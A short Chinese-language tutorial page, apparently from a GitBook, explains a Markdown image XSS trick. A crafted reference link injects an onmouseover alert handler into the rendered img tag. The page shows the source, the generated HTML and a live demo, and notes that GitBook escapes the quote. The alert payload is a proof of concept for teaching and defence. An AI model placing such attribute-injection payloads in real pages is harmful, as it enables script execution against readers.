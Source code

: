 # Markdown XSS 圖片攻擊

## 滑鼠滑過事件

***程式碼***

```markdown
[滑鼠滑過事件][1]
[1]: http://www.googl.com.tw/img.jpg#"onmouseover='alert(123)'
```

***產生 Markdown HTML***

```html
<img src="http://www.googl.com.tw/img.jpg#" onmouseover='alert(123)' alt="滑鼠滑過事件">
```

***Demo***

![滑鼠滑過事件][1]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞


## 參考資料
* [XSS等web安全漏洞的防范](http://deadhorse.me/nodejs/2012/09/20/xss_in_cnode.html)


[1]: http://www.googl.com.tw/img.jpg#"onmouseover='alert(123)'